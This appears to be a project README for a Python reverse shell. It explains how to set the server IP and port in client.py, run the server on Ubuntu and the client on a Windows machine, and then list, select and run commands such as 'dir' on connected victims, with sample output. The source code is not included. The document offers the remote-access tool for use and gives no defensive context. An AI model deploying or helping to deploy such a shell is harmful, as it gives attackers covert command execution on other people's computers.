 # Reverse shell

Simple python rverse shell 


# Edit the file
  >edit client.py 
  
          host = '192.168.10.10'   //input server ip
          port = 44444   //input server port

  >edit server.py 
  
          port = 44444   //input port to allow


 # Usage
  >Run server to open the port and wait (Ubuntu 16.04 & python3.5)
  
        python3 server.py
        server>
      
      
  >Run client (Windows10 & python3.5)
  
        python3 client.py


  >When the client is executed, use the command on the server
  
        >list
        Connected Clients:
          | IP Address   | Port number
        0 | 192.168.0.10 | 52784 
        
        >select 0
        You are now connected 192.168.10.10
        
        >192.168.10.10>dir
        C 드라이브의 볼륨에는 이름이 없습니다.
        볼륨 일련 번호: OOOOOO

        C:\Users\OOOOO 디렉터리

        2018-03-24  오후 04:25    <DIR>          OOOO
        2018-03-24  오후 04:25    <DIR>          OOOOO

